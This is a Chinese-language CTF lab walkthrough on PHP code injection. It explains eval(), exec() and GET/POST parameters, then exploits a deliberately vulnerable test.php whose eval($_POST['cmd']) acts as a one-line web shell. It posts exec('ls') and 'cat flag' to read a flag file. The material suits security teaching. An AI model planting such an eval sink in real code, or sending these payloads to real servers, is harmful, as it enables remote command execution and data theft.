



## 概览

文件目录

::: file-tree

- workspace     \# 工作目录
  - test.php    \# php文件
  - KILLME.md   \# 演示文件
  - flag        \# flag

:::

文件内容

::: code-tabs

@tab test.php

```php
<?php
highlight_file(__FILE__);
error_reporting(0);         

eval($_POST['cmd']);
?>

```

@tab KILLME.md

```md
# 不服就来砍我！
```

@tab flag

```
flag{4h1s_1s_f1ag}
```

:::


## 知识回顾

### 代码显示

```php
<?php
highlight_file(__FILE__);
error_reporting(0);         
?>
```

`highlight_file()`是一个PHP内置函数，用于将指定文件的内容以HTML高亮的形式输出。它会读取文件内容，并以语法高亮的方式显示代码，便于阅读和调试。如果文件中包含PHP代码，它会将PHP代码以HTML高亮的形式展示，而不是直接执行代码。

`__FILE__`是PHP的一个魔术常量，返回当前脚本的绝对路径和文件名


`error_reporting()`是一个PHP内置函数，用于设置PHP的错误报告级别。

`0`表示禁用所有错误报告。这意味着PHP在运行时不会显示任何错误、警告或通知（如 E_NOTICE、E_WARNING、E_ERROR 等）


### 参数传递

使用`GET`和`POST`方法传参，以下是一个演示例子：

```php
<?php
highlight_file(__FILE__);
error_reporting(0);  
if (isset($_GET['name']) && isset($_GET['gender']) && isset($_POST['id']) && isset($_POST['age'])) {
    $name = $_GET['name'];
    $gender = $_GET['gender'];
    $id = $_POST['id'];
    $age = $_POST['age'];
    echo "name:$name gender:$gender id:$id age:$age";
} else {
    echo "请传递参数给我";
}
?>
```
使用hackbar插件传参，效果如下




### eval( )

`eval()`将字符串视为PHP代码进行执行，允许在运行时动态生成并执行代码

::: code-tabs

@tab show-1.php

```php
<?php
$code = "echo 'Hello, World!';";
eval($code); // 输出：Hello, World!
?>
```

@tab show-2.php

```php
<?php
$a = 10;
$b = 20;
eval("echo \$a + \$b;");
// 输出：30
?>
```

:::

### exec( )

`exec()`是一个用于执行外部程序的功能强大的函数。它允许你在PHP脚本中运行系统命令，并可以获取命令的输出或状态码。

::: code-tabs

@tab show-1.php

```php
<?php
// 执行外部命令
$output = exec('date');
echo "当前时间: $output";
?>
```

@tab show-2.php

```php
<?php
// 执行外部命令，并将输出存储到 $output 数组中
$output = [];
$return_var = 0;
exec('ls -l', $output, $return_var);

// 检查命令是否执行成功
if ($return_var === 0) {
    echo "命令执行成功，输出如下：<br>";
    foreach ($output as $line) {
        echo htmlspecialchars($line) . "<br>";
    }
} else {
    echo "命令执行失败，状态码: $return_var";
}
?>
```

:::


## 实战

分析目标代码，我们很容易得知要对eval部分进行下手

```php
<?php
highlight_file(__FILE__);
error_reporting(0);         

eval($_POST['cmd']); // [!code focus]
?>
```

我们可以写出对应的指令

```php
exec('ls', $output); // 在这里面添加我们想执行的指令
foreach ($output as $line) {
    echo $line . "<br>";
}

```
接着，用POST传参（可以传多个语句）

发现flag，使用“cat flag”得到flag


